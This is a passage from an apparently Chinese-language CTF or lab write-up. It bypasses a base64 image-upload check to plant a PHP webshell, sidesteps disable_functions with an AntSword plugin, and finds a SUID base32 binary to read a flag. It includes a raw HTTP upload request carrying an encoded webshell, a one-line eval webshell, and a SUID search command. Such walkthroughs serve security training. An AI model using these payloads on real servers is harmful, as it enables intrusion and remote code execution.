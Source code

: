 ```php
```

对于上传的校验不完整，只要符合格式是`data:image/xxx;base64,xxx`这种就行

![image-20240903145439892](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903145439892.png?imageSlim)

```
POST /uploadbase64.php HTTP/1.1
Host: 172.28.23.26
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

imgbase64=data:image/php;base64,PD89YCRfR0VUWzFdYDtldmFsKCRfUE9TVFsxXSk7Pz4=
```

![image-20240903150945360](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903150945360.png?imageSlim)

用蚁剑的插件绕过disable_functions（大部分功能只支持Linux系统）

![image-20240903173301645](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903173301645.png?imageSlim)

成功后，再创建一个GET一句话木马/upload/1.php，将.antproxy.php第37行的url改成/upload/1.php

```
#/upload/1.php
<?php eval($_GET[1]);?>
```

![image-20240903173626802](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903173626802.png?imageSlim)

![image-20240903174121983](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903174121983.png?imageSlim)

访问.antproxy.php（相当于访问没有disabled_functions的1.php文件），执行系统命令，发现base32有suid，可进行利用

![image-20240903174737620](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903174737620.png?imageSlim)

不能直接读flag02.txt

执行`find / -perm -u=s -type f 2>/dev/null`，发现`base32`有suid权限，可以利用

![image-20240903180558164](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903180558164.png?imageSlim)

![image-20240903180713790](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903180713790.png?imageSlim)
